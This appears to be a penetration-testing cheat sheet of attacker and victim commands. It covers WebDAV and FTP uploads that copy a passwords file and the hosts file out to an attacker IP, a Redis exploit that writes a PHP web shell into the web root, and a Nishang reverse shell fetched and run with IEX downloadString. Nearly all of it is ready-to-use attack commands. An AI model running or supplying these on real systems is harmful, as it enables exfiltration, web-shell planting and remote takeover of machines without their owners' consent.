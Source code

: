 ## WebDav Uploads
SMB over HTTP. If you try to upload files via SMB, but nothing is listening on port 445, a client will also try to upload a file via HTTP(s).
- KALI: `sudo pip install wsgidav cheroot`
- KALI: `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`
- VICTIM: `dir \\192.168.49.128\DavWWWRoot`

DavWWWRoot is a special keyword recognized by the Windows Shell. No such folder exists on your WebDAV server. The DavWWWRoot keyword tells the Mini-Redirector driver, which handles WebDAV requests that you are connecting to the root of the WebDAV server.

- VICTIM: `copy C:\Users\Rem\Desktop\passwords.txt \\192.168.1.13\DavWWWRoot\`

## FTP
- KALI: `sudo python3 -m pyftpdlib --port 21 --write`
- VICTIM: '(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
 
# Redis

https://packetstormsecurity.com/files/134200/Redis-Remote-Command-Execution.html

flushall

set PleaseSubscribe "<? system($_REQUEST['cmd']); ?>"

config set dbfilename shell.php

config set dir /var/www/html/

save

# Search files

- dir secret.doc /s /p (Windows)
- find -O3 -L /var/www/ -name "\*.html" (Linux)

## Python SERVER

python -m simpleHTTPServer

## Nishang

Linux Site:

- gedit Invoke-PowerShellTcp.ps1 (Invoke-PowerShellTcp -Reverse -IPAdress 192.168.1.32 -Port 4444
- python -m SimpleHTTPServer
- nc -lvp 4444

Windows Site:

- C:\Windows\SysNative\WindowsPowershell\v1.0\powershell.exe IEX(New-Object Net.webClient).downloadString('http://10.10.10.10:8000/Invoke-PowerShellTcp.ps1')
